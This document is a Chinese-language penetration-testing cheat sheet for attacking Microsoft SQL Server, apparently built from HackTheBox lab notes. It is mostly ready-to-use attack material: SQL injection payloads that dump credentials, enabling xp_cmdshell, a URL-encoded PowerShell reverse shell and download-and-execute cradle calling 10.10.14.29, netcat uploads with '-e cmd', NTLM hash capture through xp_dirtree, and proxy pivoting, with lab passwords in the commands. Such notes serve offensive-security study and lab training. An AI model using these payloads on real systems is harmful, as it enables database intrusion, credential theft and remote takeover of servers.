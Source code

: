 Microsoft SQL Server , Mssql , 默认端口号1433 
常见与 asp/aspx + sql server + **IIS**

##### SQL 注入  
[0x09 StreamIO (mssql注入,LFI,Firefox凭据泄露)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x09%20StreamIO%20(mssql注入,LFI,Firefox凭据泄露).md)    （包含 mssql 注入的靶机）
一定要检查细致 :    '    "    ')    ")     , 单引号前面的数据也有可能影响最后结果建议多写一点
**(一般来说 mssql 的堆叠注入比较多)**
```mysql
qwe' and 1=1 -- -
qwe' and 1=1; -- -
qwe' -- -
qwe' or 1=1; -- -
qwe' or 1=1 -- -
qwe' oR 1=1 -- -
qwe' || 1=1 -- -
qwe' && 1=1 -- -
qwe' union select 1,2,3,4,5,6; -- -
qwe' union select 1,2,3,4,5,6 -- -
qwe'; -- -
```

MSSQL 基本注入命令

```sql
@@version
db_name()  当前数据库名字
```

```sql
相当于检索数据
QWE' union select 1,name,3,4,5,6 from master..sysdatabases;-- -
```

```sql
检索用户表的信息
QWE' union select 1,name,id,4,5,6 from [DATABASE]..sysobjects where xtype='U' -- -

sysobjects是一个系统表，包含了数据库中的对象(表，视图，存储过程...)
xtype是一个条件，'U'表示User Table，所以限制了返回对象类型是用户表，其他类型的对象将被排除
```

拿到 name 和 id，读取列
```sql
QWE' union select 1,name,id,4,5,6 from [DATABASE]..syscolumns where id in ([ID]) -- -
qwe' union select 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'Logins' -- 
```

读取数据
```bash
QWE' union select 1,concat(username,':',password),3,4,5,6 from users -- -
qwe' union select 1,2,3,username,password from Logins -- -
```

### 堆叠注入利用
**Ms SQL 启用 Enable xp_cmdshell 攻击方法**    > 注意使用 Unicode 编码
https://www.tarlogic.com/blog/red-team-tales-0x01/
(自行判断注入方式单引号双引号等)
```
EXEC sp_configure 'show advanced options', 1;-- -
EXEC sp_configure 'xp_cmdshell', 1;-- -
RECONFIGURE;-- -
```

**执行系统命令：**
```
qwe';EXEC xp_cmdshell "ping x.x.x.x";-- -
```

**尝试直接指定 powershell 路径**
```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe  (x32)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  (x64)
```
测试 ping
```
powershell+ping+192.168.45.171
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe+ping+192.168.45.171
```

**0x01 Invoke-reverseShellTcp.ps1**
上传 nishang 的 Invoke-ReverseShellTcp.ps1到靶机
在最后一行添加 `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.29 -Port 443`
![](photos/Pasted%20image%2020240314155203.png)

```
3%3bEXEC+xp_cMdshEll+'C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http://10.10.14.29/Invoke-PowerShellTcp.ps1\")"'--+-
```

**0x02 直接弹反弹 shell**
```
3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"$client+%3d+new-object+system.net.sockets.tcpclient(\"10.10.14.29\",443)%3b$stream+%3d+$client.getstream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.read($bytes,+0,+$bytes.length))+-ne+0){%3b$data+%3d+(new-object+-typename+system.text.asciiencoding).getstring($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+out-string+)%3b$sendback2+%3d+$sendback+%2b+\"PS+\"+%2b+(pwd).path+%2b+\"^>+\"%3b$sendbyte+%3d+([text.encoding]%3a%3aascii).getbytes($sendback2)%3b$stream.write($sendbyte,0,$sendbyte.length)%3b$stream.flush()}%3b$client.close()"'%3b
```

**0x03 上传 nc.exe**
```powershell
qwe';EXEC xp_cmDshEll "powershell /c iwr -Uri http://x.x.x.x/nc64.exe -OutFile C:\\programdata\\nc.exe"; -- -
qwe';EXEC xp_cmDshEll "cmd /c C:\\programdata\\nc.exe -e cmd x.x.x.x 2233"
```


## 链接数据库

### and with the user name [sa] and default password [RPSsql12345]
##### sqlcmd.exe （Windows）

链接数据库
```
sqlcmd -S localost -U xxx -P xxx -d [DATABASE] -Q [SQLCommand]
```

查询表
```
sqlcmd -S localost -U xxx -p xxx -d [DATABASE] -Q "select name from sys.tables;"
```

读取数据
```
sqlcmd -S localost -U xxx -p xxx -d [DATABASE] -Q "select * from [TABLE];"
```

##### mssqlclient.py （Linux）

```bash
└─$ locate mssqlclient.py
/usr/share/doc/python3-impacket/examples/mssqlclient.py
```

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py licordebellota.htb/Kaorz:Roper4155@10.129.228.115 [-windows-auth  (Windows链接记得加上)]
```

```
enable_xp_cmdshell
xp_cmdshell whoami
SELECT * FROM fn_my_permissions(NULL, 'SERVER');  (查看当前链接数据库用户权限信息)
select name from sys.databases
use xxx
select name from sys.tables
select * from xxx
xp_dirtree C:\inetpub\wwwroot


xp_cmdshell \\10.10.14.29\share\nc64.exe -e cmd.exe 10.10.14.29 2233
```

##### mssqlproxy.py
https://github.com/blackarrowsec/mssqlproxy
针对5985只在内网，外网开放1433的情况
![](photos/Pasted%20image%2020240205131454.png)

```bash
git clone https://github.com/djhons/mssqlproxy.git
```

```bash
python3 ./mssqlproxy/mssqlclient.py licordebellota.htb/sa:'#mssql_s3rV1c3!2020'@10.129.46.75
```

```bash
SQL> enable_ole
SQL> upload mssqlproxy/reciclador.dll C:\windows\temp\reciclador.dll   (上传动态链接库)
ctrl ^ c
wget https://github.com/blackarrowsec/mssqlproxy/releases/download/0.1/assembly.dll
python3 mssqlclient.py licordebellota.htb/sa:'#mssql_s3rV1c3!2020'@10.129.46.75 -install -clr assembly.dll
python3 mssqlclient.py licordebellota.htb/sa:'#mssql_s3rV1c3!2020'@10.129.46.75 -start -reciclador 'C:\Windows\temp\reciclador.dll'
```

修改 proxychains4.conf
```bash
sudo bash -c 'echo "socks5 127.0.0.1  1337" >> /etc/proxychains4.conf'
```

连接本地 winrm
```bash
proxychains evil-winrm -i 127.0.0.1 -u svc_mssql -p '#mssql_s3rV1c3!2020'
```

#### ATTACK

**使用 xp_dirtree 配合 kali 中的 impacket-smbserver 当做中间人拿到访问的凭据 hash**

- Kali
```bash
impacket-smbserver share .  -smb2support
```

- Target
```bash
EXEC xp_dirtree '\\10.10.14.16\share'
```


**whommi priv 拥有 SeImpersonate 权限可以进行提权**
[0x03 Windows , AD 攻击向量 ( PrivEsc )](../0x03%20Windows/0x03%20Windows%20,%20AD%20攻击向量%20(%20PrivEsc%20).md)


# 域渗透

##### 手动 sql 注入转储域用户
参考 [3306 - MySQL(SQL Injection)](3306%20-%20MySQL(SQL%20Injection).md) 

